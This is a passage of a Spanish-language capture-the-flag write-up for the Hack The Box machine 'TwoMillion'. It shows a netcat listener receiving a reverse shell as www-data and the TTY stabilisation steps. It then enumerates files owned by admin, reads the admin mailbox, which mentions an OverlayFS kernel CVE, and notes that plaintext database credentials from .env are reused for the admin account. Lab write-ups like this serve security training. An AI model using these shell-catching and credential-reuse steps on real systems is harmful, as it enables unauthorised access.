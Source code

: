 ```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.69] from (UNKNOWN) [10.10.11.221] 58196
bash: cannot set terminal process group (1158): Inappropriate ioctl for device
bash: no job control in this shell
www-data@2million:~/html$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@2million:~/html$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
www-data@2million:~/html$ export TERM=xterm-color
www-data@2million:~/html$ stty rows 55 columns 209
www-data@2million:~/html$ source /etc/skel/.bashrc
```

Busco por archivos cuyo propietario sea ```admin```

```null
www-data@2million:/$ find \-user admin 2>/dev/null 
./home/admin
./home/admin/.cache
./home/admin/.ssh
./home/admin/.profile
./home/admin/.bash_logout
./home/admin/.bashrc
./var/mail/admin
```

Puedo leer el correo

```null
www-data@2million:/$ cat ./var/mail/admin
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```

En el archivo ```.env``` se encuentran credenciales en texto claro de acceso a la base de datos. Se reutilizan para el usuario ```admin```
